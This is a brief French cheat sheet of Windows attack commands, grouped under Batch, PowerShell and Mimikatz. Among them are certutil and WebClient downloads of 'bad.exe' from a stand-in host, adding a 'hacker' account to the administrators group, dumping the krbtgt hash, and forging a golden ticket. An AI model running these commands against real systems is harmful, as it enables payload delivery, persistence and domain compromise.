<h2>Batch</h2>

`systeminfo` → Obtenir des renseignements sur le système

`net users /domain [username]` → Obtenir des renseignements sur les utilisateurs

`tasklist` → Lister les processus

`netstat -ano` → Liste des connexions tcp

`dir sysprep /s /b` → Trouver un fichier dans le repertoire courant et ses sous-dossiers

`wmic qfe list` → Lister les patch installés (KB)

`certutil.exe -urlcache -split -f "http://site.com/bad.exe" bad.exe` → Wget en batch

`certutil.exe -decode bad.txt bad.exe` → Base64 decode en cmd

`net user Domain/hacker hackerhacker /add` → Ajoute un utilisateur

`net localgroup administrators hacker /add` → Ajoute un utilisateur à un groupe

`net use k: \\srv.remote.org\c$` → Connexion au disque distant c sur la partition k

`wmic useraccount where name='user'` → Récupère des informations sur un utilisateur (SID)


<h2>Powershell</h2>

`{(New-Object System.Net.WebClient).DownloadFile("http://site.com/file", "C:\\Users\Public\file")}` → Wget en powershell

`get-WmiObject -class Win32_Share`

<h2>Mimikatz</h2>

`privilege::debug`

`lsadump::lsa /inject /name:krbtgt` → Récupérer le NTLM hash de krbtgt

`kerberos::golden /user:[USER] /domain:[DOMAINE] /sid:[SID de USER] /krbtgt:[NTLM hash de krbtgt] /ticket:evil.tck /ptt` → Créé et inject un golden ticket à la session

